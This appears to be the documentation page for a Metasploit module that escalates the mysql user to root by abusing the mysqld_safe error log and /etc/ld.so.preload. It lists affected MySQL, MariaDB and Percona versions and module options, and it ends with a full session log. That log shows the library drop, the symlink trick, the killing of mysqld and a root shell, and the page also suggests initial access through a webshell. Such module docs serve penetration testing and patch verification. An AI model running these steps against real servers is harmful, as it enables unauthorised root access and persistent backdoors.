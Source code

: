
## Notes

This exploit was tested on ubuntu 14 and 16. As it relays on log file location and service restarting, success on other linux distributions depends greatly.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. mysql must be started by running mysql_safe
  2. the error log must be active
  3. mysql logging through syslog must not enabled
  4. mysql automatic restart must be enabled

  Using Ubuntu 16.04:

  1. install mariadb - `apt-get -y install mariadb-server`
  2. disable syslog - `sed -i -e "s/syslog/#syslog/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  3. enable error log - `sed -i -e "s/skip_log_error/#skip_log_error/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  4. enable service - `systemctl enable mysql.service`
  5. start service - `systemctl start mysql.service`

This module has been tested against the following versions of mysql running on Ubuntu 16.04:

  1. MariaDB 10.0.27

On Ubuntu 14.04:

  1. MySQL 5.5.35
  2. MariaDB 5.5.52

On Debian 8.6

  1. MySQL 5.5.53

This module was not tested against, but may work against:

  * MySQL
     <= 5.5.51
     <= 5.6.32
     <= 5.7.14

  * MariaDB
     <= 5.5.50

  * Percona Server
     < 5.5.51-38.2
     < 5.6.32-78-1
     < 5.7.14-8

  * Percona XtraDB Cluster
     < 5.6.32-25.17
     < 5.7.14-26.17
     < 5.5.41-37.0

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/mysql_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **ErrorLog**

  The mysql service error log file. The location of this file is set on the configuration files. Defaults to /var/log/mysql/error.log

  **BackdoorShell**

  The shell that will be launched using elevated privileges.  Defaults to /bin/bash

  **COMPILE**

  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)
### MariaDB 10.0.27 (MariaDB-0ubuntu0.16.04.1)

#### Initial Access

    Use whatever means to get a session back to metaploit ith the mysql account, usually dropping a webshell, connecting back to metaploit and escalate to mysql.

#### Escalate to root

msf exploit(mysql_priv_esc) >
[*] Sending stage (36 bytes) to 192.168.205.64
[*] Command shell session 45 opened (192.168.205.52:443 -> 192.168.205.64:51400) at 2016-11-16 21:44:16 +0000

msf exploit(mysql_priv_esc) > set session 45
session => 45
msf exploit(mysql_priv_esc) > run

[+] mysqld_safe is running
[+] The current user is mysql
[*] Checking if gcc are installed
[*] Checking if gcc are installed
[*] Dropping pre-compiled exploit on system
[*] Writing privesclib to /tmp/fYAMgzW5.so
[*] Max line length is 65537
[*] Writing 8240 bytes in 1 chunks of 19877 bytes (octal-encoded), using printf
[*] Seting up the preload trap
[*] cp /bin/bash /tmp/mysqlrootsh
[*] touch -f /var/log/mysql/error.log; mv /var/log/mysql/error.log /var/log/mysql/error.log.tmp && ln -s /etc/ld.so.preload /var/log/mysql/error.log
[*] kill $(pgrep mysqld)
[*] /bin//sh: 27: kill: Operation not permitted

[*] Waiting for mysqld to restart...
[*] Executing escalation.
[*] echo /tmp/fYAMgzW5.so > /etc/ld.so.preload
[*] chmod 755 /etc/ld.so.preload
[*] /usr/bin/sudo 2>/dev/null >/dev/null
[*] /tmp/mysqlrootsh -p -c "rm -f /etc/ld.so.preload; rm -f /tmp/fYAMgzW5.so"
[*] /tmp/mysqlrootsh -p
[*] Cleanup done.
[!] This exploit may require manual cleanup of '/tmp/mysqlrootsh' on the target
msf exploit(mysql_priv_esc) > sessions -i 45 -c "id"
[*] Running 'id' on shell session 45 (192.168.205.64)
uid=112(mysql) gid=121(mysql) euid=0(root) groups=121(mysql)
